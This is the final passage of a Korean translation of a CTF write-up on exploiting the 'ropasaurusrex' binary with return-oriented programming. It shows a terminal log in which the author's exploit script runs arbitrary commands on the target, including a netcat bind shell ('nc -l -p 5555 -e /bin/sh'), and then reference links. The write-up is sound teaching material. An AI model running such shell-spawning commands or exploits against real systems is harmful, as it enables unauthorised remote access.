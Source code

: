 물론 `cat /etc/passwd`를 원하는 값으로 바꿀 수 있다 (netcat 리스너를 포함해서!).

``` sh
ron@debian-x86 ~ $ ruby sploit.rb "pwd"
/home/ron
ron@debian-x86 ~ $ ruby sploit.rb "whoami"
ron
ron@debian-x86 ~ $ ruby sploit.rb "nc -vv -l -p 5555 -e /bin/sh" &
[1] 3015
ron@debian-x86 ~ $ nc -vv localhost 5555
debian-x86.skullseclabs.org [127.0.0.1] 5555 (?) open
pwd
/home/ron
whoami
ron
```

## <a id="conclusion"></a>결론

이게 끝이다! 난 믿을 만한, DEP/ASLR을 우회하는 ropasaurusrex 익스플로잇을 만들었다.

질문이 있다면 댓글을 달거나 나에게 연락해주길 바란다!


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump